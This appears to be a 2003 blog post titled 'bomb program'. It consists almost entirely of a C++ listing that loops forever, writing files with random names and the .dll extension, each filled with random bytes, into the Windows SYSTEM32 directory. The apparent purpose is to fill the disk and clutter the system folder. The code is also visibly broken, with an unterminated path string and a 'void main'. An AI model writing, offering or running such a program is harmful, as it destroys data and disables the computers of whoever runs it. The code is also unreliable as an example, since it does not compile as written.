 ```yaml
---
title: "爆弾プログラム"
post_id: "3093"
date: "2003-12-12T11:00:00+09:00"
draft: false
tag: []
---
```



#include <string>

    #include <fstream>

    #include <cstdlib>

    void main( void ){

     using namespace std;

     string dir = "C:\\WINDOWS\SYSTEM32\";

     while( 1 ){

      string name;

      int rnd = rand();

      for( int i = 0; i < ( rnd >> 10 ); i++ ){

       name.resize( name.size() + 1 );

       name[ i ] = 0x61 + ( rand() >> 11 );

      }

      ofstream file( ( dir + name + ".dll" ).c_str() );

      for( int j = 0; j < rnd; j++ ) file << ( char )rand();
    file.close();

     }

    }
